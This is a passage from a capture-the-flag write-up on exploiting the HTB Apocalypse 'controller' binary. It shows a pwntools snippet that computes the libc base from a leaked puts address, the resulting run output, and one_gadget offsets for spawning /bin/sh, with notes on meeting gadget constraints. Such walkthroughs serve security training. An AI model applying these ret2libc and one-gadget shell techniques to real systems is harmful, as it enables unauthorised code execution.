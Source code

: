 ```
puts_libc = u64(leak_unproc)

print(hex(puts_libc))
libc_base = puts_libc - libc.symbols['puts']
``` 

Running the script should get us output as reproduced below; check the GOT table in gdb to ensure that the printed value matches the GOT entry for the leaked puts function:

```
ubuntu@ubuntu1804:~/CTF/HTBApocalypse/controller_files$ python3 controller_writeup.py NOPTRACE
[+] Starting local process './controller': pid 2745
[!] Skipping debug attach since context.noptrace==True
[*] '/home/ubuntu/CTF/HTBApocalypse/controller_files/controller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/ubuntu/CTF/HTBApocalypse/controller_files/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'\x1b[1;6;31m\n\xf0\x9f\x91\xbe Control Room \xf0\x9f\x91\xbe\n\n\x1b[0mInsert the amount of 2 different types of recources:'
b' Choose operation:\n\n1. \xe2\x9e\x95\n\n2. \xe2\x9e\x96\n\n3. \xe2\x9d\x8c\n\n4.'
b' \xe2\x9e\x97\n\n> -18 * 11 = 65338\nSomething odd happened!\nDo you want to report the problem?'
0x7f2bc9073aa0

```

Now, you could use the libc base that you have derived in order to offsets for the system() function and a /bin/sh string within the libc library, then pop the string into rdi and call system() in order to get a shell. However, a nice alternative is onegadget. We call onegadget on the provided binary, like so:

```
knittingirl@piglet:~/CTF/HTBApocalypse/controller_files$ one_gadget libc.so.6
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

```
Each of the addresses are possible libc offsets you could use to get a shell with a single call, provided the constraints for that gadget are met. If you have a very long, unbounded input, you can typically force constraints like [rsp+0x40] == NULL by appending a lot of nulls to your input after the actual payload; however, the constraints are often satisfied regardless on at least one of the gadgets. 
